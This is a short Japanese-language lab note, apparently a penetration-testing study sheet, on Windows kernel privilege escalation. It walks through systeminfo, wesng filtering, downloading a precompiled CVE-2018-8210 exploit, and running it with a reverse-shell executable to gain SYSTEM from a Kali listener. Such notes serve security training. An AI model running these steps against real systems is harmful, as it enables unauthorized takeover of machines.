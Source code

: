カーネルエクスプロイトの発見   
カーネルエクスプロイトの発見と使用は、通常、簡単なプロセスです。   
>1. Windowsのバージョンとパッチレベルを調べる(systeminfo)
>2. 一致するエクスプロイトを見つける（Google、ExploitDB、GitHub）   
>3. コンパイルして実行する

ただし、カーネルエクスプロイトは不安定な場合が多いので、注意が必要です。   
システムクラッシュを引き起こす可能性があります。   

### Tools  
Windows Exploit Suggester:https://github.com/bitsadmin/wesng   
Precompiled Kernel Exploits:https://github.com/SecWiki/windows-kernel-exploits   
Watson: https://github.com/rasta-mouse/Watson   

---
(注：この手順はWindows 7の場合です。）
1. systeminfo コマンドの出力を抽出します。    
```
> systeminfo > systeminfo.txt
```
2. 悪用される可能性のあるものを探すためにwesngを実行する。   
```
# /home/kali/.local/lib/python3.10/site-packages/wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only | less
```
3. コンパイルされたエクスプロイトと結果をクロスリファレンスする。
https://github.com/SecWiki/windows-kernel-exploits   
4. CVE-2018-8210のコンパイル済みエクスプロイトをWindows VMにダウンロードする。   
5. Kali上でリスナーを起動し、exploitを実行します。   
リバースシェル実行ファイルを提供します。    
SYSTEM 権限で実行する必要があります。  
```
> .\x64.exe C:\PrivEsc\reverse.exe
````

